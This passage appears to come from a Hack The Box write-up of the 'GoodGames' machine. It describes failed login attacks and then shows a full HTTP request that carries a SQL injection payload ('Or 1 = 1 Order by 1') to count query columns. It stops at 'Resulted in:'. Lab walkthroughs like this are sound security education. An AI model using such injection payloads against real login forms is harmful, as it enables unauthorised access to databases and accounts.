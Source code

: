 ![Administration Login Screen](/assets/images/2022/03/GoodGames/AdmininstrationLoginScreen.png "Administration Login Screen")

I made multiple attempt at SQL Injection on that page. I also tried to brute force the loging using admin and admin@goodgames.htb as usernames. But nothing worked. 

It took me some time before I realised that I could go back to the original SQL Injection and use it for more than login as admin. I did a login attempt, then used Burp Repeater to start experimenting with the injection.

First, I tried to find out how may columns were returned by the query. 

```http
POST /login HTTP/1.1
Host: target.htb
User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:91.0) Gecko/20100101 Firefox/91.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/webp,*/*;q=0.8
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate
Content-Type: application/x-www-form-urlencoded
Content-Length: 52
Origin: http://target.htb
Connection: close
Referer: http://target.htb/
Upgrade-Insecure-Requests: 1

email=' Or 1 = 1 Order by 1 -- -- &password=sfdkljds
```

Resulted in:
